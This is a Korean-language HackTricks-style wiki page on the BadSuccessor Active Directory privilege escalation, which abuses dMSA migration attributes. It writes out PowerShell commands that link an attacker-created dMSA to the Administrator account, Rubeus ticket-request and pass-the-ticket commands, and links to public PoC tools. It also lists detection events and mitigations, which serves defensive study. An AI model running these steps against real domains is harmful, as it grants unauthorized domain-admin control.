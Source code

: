 # BadSuccessor: Privilege Escalation via Delegated MSA Migration Abuse

{{#include ../../banners/hacktricks-training.md}}

## 개요

Delegated Managed Service Accounts (**dMSA**)는 Windows Server 2025에 탑재된 **gMSA**의 차세대 후계자입니다. 합법적인 마이그레이션 워크플로우는 관리자가 *오래된* 계정(사용자, 컴퓨터 또는 서비스 계정)을 dMSA로 교체하면서 권한을 투명하게 유지할 수 있도록 합니다. 이 워크플로우는 `Start-ADServiceAccountMigration` 및 `Complete-ADServiceAccountMigration`과 같은 PowerShell cmdlet을 통해 노출되며, **dMSA 객체**의 두 가지 LDAP 속성에 의존합니다:

* **`msDS-ManagedAccountPrecededByLink`** – *DN 링크*로서 대체된(오래된) 계정.
* **`msDS-DelegatedMSAState`**       – 마이그레이션 상태 (`0` = 없음, `1` = 진행 중, `2` = *완료됨*).

공격자가 OU 내에서 **어떤** dMSA를 생성하고 이 두 속성을 직접 조작할 수 있다면, LSASS 및 KDC는 dMSA를 연결된 계정의 *후계자*로 간주합니다. 이후 공격자가 dMSA로 인증하면 **연결된 계정의 모든 권한을 상속받습니다** – 관리 계정이 연결된 경우 **도메인 관리자**까지 가능합니다.

이 기술은 2025년 Unit 42에 의해 **BadSuccessor**라는 이름이 붙여졌습니다. 작성 시점에 **보안 패치**는 제공되지 않으며, OU 권한의 강화만이 문제를 완화합니다.

### 공격 전제 조건

1. **조직 단위(OU)** 내에서 객체를 생성할 수 있는 *권한이 있는* 계정 *및* 다음 중 하나 이상을 보유해야 합니다:
* `Create Child` → **`msDS-DelegatedManagedServiceAccount`** 객체 클래스
* `Create Child` → **`All Objects`** (일반 생성)
2. LDAP 및 Kerberos에 대한 네트워크 연결(표준 도메인 가입 시나리오 / 원격 공격).

## 취약한 OU 열거하기

Unit 42는 각 OU의 보안 설명자를 파싱하고 필요한 ACE를 강조 표시하는 PowerShell 도우미 스크립트를 공개했습니다:
```powershell
Get-BadSuccessorOUPermissions.ps1 -Domain contoso.local
```
스크립트는 `(objectClass=organizationalUnit)`에 대한 페이지된 LDAP 검색을 실행하고 모든 `nTSecurityDescriptor`를 확인합니다.

* `ADS_RIGHT_DS_CREATE_CHILD` (0x0001)
* `Active Directory Schema ID: 31ed51fa-77b1-4175-884a-5c6f3f6f34e8` (객체 클래스 *msDS-DelegatedManagedServiceAccount*)

## Exploitation Steps

쓰기 가능한 OU가 식별되면 공격은 단 3개의 LDAP 쓰기만 남습니다:
```powershell
# 1. Create a new delegated MSA inside the delegated OU
New-ADServiceAccount -Name attacker_dMSA \
-DNSHostName host.contoso.local \
-Path "OU=DelegatedOU,DC=contoso,DC=com"

# 2. Point the dMSA to the target account (e.g. Domain Admin)
Set-ADServiceAccount attacker_dMSA -Add \
@{msDS-ManagedAccountPrecededByLink="CN=Administrator,CN=Users,DC=contoso,DC=com"}

# 3. Mark the migration as *completed*
Set-ADServiceAccount attacker_dMSA -Replace @{msDS-DelegatedMSAState=2}
```
복제 후 공격자는 단순히 **logon**하여 `attacker_dMSA$`로 로그인하거나 Kerberos TGT를 요청할 수 있습니다. Windows는 *superseded* 계정의 토큰을 생성합니다.

### Automation

여러 공개 PoC는 비밀번호 검색 및 티켓 관리를 포함한 전체 워크플로를 래핑합니다:

* SharpSuccessor (C#) – [https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)
* BadSuccessor.ps1 (PowerShell) – [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1)
* NetExec 모듈 – `badsuccessor` (Python) – [https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)

### Post-Exploitation
```powershell
# Request a TGT for the dMSA and inject it (Rubeus)
Rubeus asktgt /user:attacker_dMSA$ /password:<ClearTextPwd> /domain:contoso.local
Rubeus ptt /ticket:<Base64TGT>

# Access Domain Admin resources
dir \\DC01\C$
```
## 탐지 및 사냥

OU에서 **객체 감사**를 활성화하고 다음 Windows 보안 이벤트를 모니터링합니다:

* **5137** – **dMSA** 객체 생성
* **5136** – **`msDS-ManagedAccountPrecededByLink`** 수정
* **4662** – 특정 속성 변경
* GUID `2f5c138a-bd38-4016-88b4-0ec87cbb4919` → `msDS-DelegatedMSAState`
* GUID `a0945b2b-57a2-43bd-b327-4d112a4e8bd1` → `msDS-ManagedAccountPrecededByLink`
* **2946** – dMSA에 대한 TGT 발급

`4662` (속성 수정), `4741` (컴퓨터/서비스 계정 생성) 및 `4624` (후속 로그온)를 상관관계 분석하면 BadSuccessor 활동이 빠르게 드러납니다. **XSIAM**과 같은 XDR 솔루션은 즉시 사용할 수 있는 쿼리를 제공합니다 (참조를 참조하십시오).

## 완화

* **최소 권한** 원칙을 적용합니다 – 신뢰할 수 있는 역할에만 *서비스 계정* 관리를 위임합니다.
* 명시적으로 필요하지 않은 OU에서 `Create Child` / `msDS-DelegatedManagedServiceAccount`를 제거합니다.
* 위에 나열된 이벤트 ID를 모니터링하고 dMSA를 생성하거나 편집하는 *비-티어 0* 신원에 대해 경고합니다.

## 참조

{{#ref}}
golden-dmsa-gmsa.md
{{#endref}}

## 참고 문헌

- [Unit42 – 좋은 계정이 나쁜 계정으로 변할 때: 위임된 관리 서비스 계정 악용](https://unit42.paloaltonetworks.com/badsuccessor-attack-vector/)
- [SharpSuccessor PoC](https://github.com/logangoins/SharpSuccessor)
- [BadSuccessor.ps1 – Pentest-Tools-Collection](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1)
- [NetExec BadSuccessor 모듈](https://github.com/Pennyw0rth/NetExec/blob/main/nxc/modules/badsuccessor.py)

{{#include ../../banners/hacktricks-training.md}}
